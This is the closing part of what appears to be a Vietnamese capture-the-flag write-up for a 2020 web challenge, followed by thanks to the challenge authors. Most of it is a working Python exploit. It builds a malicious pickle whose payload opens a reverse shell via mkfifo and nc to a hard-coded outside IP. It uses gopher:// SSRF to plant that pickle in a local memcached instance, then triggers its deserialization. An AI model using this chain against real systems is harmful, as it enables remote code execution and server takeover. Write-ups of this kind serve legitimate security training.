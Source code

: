 ```python
class Exploit(object):
    def __reduce__(self):
        return system, ('rm -f /tmp/f; mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 3.0.119.151 3000 > /tmp/f',)


title = rand_string(6)
payload = pickle.dumps(Exploit())
payload = [
    '',
    'set %s 1 10 %d' % (title, len(payload)),
    payload,
    ''
]

print 'Start requesting...'
try:
    res = requests.post('http://hellovietnamv2.0x1337.space:31337/loadexternalvideo', data={
        'inputTitle': rand_string(6),
        'inputDescription': 'description',
        'video_url': 'gopher://127.0.0.1:11211/_' + urllib.quote('\r\n'.join(payload)),
        'timestamp': int(time()) - 2
    }, cookies={
        'session': 'redacted'
    }, timeout=3)
    print res.content
except:
    pass
print 'Done!'

print 'Start triggering payload...'
try:
    res = requests.post('http://hellovietnamv2.0x1337.space:31337/GIFmaker', data={
        'inputTitle': title,
        'inputDescription': 'description',
        'filePath': 'static/Uploads/aa587ed19a228d98431f142900b60633.mp4',
        'timestamp': int(time()) - 2
    }, cookies={
        'session': 'redacted'
    }, timeout=3)
    print res.content
except:
    pass
print 'Done, exit program!'
```

![](https://i.imgur.com/gsyWzxH.jpg)

# Last words
Cảm ơn 2 anh @ducnt và @tsug0d đã tạo ra những đề Web hay ho cho dịp đầu năm 2020, support nhiệt tình cho em để có thể giải được hết tất cả các Web challenge cũng như nhằm ôn lại những kiến thức đã được học trong năm 2019 đã qua.

Chúc mừng năm mới 2️⃣0️⃣2️⃣0️⃣ everyone!